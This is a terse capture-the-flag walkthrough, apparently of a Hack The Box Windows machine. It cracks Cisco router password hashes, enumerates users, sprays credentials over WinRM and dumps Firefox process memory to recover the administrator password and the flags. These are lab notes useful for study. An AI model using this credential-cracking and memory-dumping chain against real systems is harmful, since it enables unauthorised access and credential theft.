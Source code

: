 ## User
### WEB-Browser 
http://10.129.96.157/
Login as Guest
http://10.129.96.157/attachments/config.txt		
Router Config
![[Pasted image 20240520202654.png]]
#### Interesting Fields
```
enable secret 5 \$1\$pdQG\$o8nrSzsGXeaduXrjlvKc91
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
```
### COMMAND
```sh
nano pwdSecret
#Put the Enable Secret 5 hash in the file.
hashcat pwdSecret  /home/kali/Downloads/rockyou.txt
```
#### CREDS
```
User:
	Hazard
Password:
	$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent  
(The other 2 correlate to a Type 7 cisco password)
				[IFM - Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
User:
	rout3r
Password:
	$uperP@ssword
User:
	Admin
Password:
	Q4)sJu\\Y8qz\*A3\?d
```
### COMMAND
```sh
impacket-lookupsid Hazard:stealth1agent@10.129.96.157
```
#### Interesting Fields
```
500: SUPPORTDESK\\Administrator (SidTypeUser)
501: SUPPORTDESK\\Guest (SidTypeUser)
503: SUPPORTDESK\\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\\None (SidTypeGroup)
1008: SUPPORTDESK\\Hazard (SidTypeUser)
1009: SUPPORTDESK\\support (SidTypeUser)
1012: SUPPORTDESK\\Chase (SidTypeUser)
1013: SUPPORTDESK\\Jason (SidTypeUser)
```
### COMMAND
```sh
#Create a file that contains the Users & another that contains the passwords.
crackmapexec winrm 10.129.96.157 -u users.txt -p Passwords.txt
evil-winrm -u chase -p "Q4)sJu\Y8qz*A3?d" -i 10.129.96.157
```
### USER PWN:
```sh
type C:\Users\Chase\Desktop\user.txt
```

```
3f2fcb700ab365f8a784eab5ead02a04
```
## Root
### COMMAND
```sh
upload procdump.exe
ps
.\procdump.exe -accepteula -ma <PID>
upload strings.exe
.\strings.exe -accepteula firefox<numbas>.dmp >goingtobridgemyself
.\strings.exe -acccepteula firefox<numbas>.dmp | findstr "password"
download goingtobridgemyself
```
### ROOT PWN
```sh
evil-winrm -i 10.129.96.157 -u administrator -p '4dD!5}x/re8]FBuZ'
```

```
0bf61a3d7d7c5f20bdbb63c88c96bb13
```


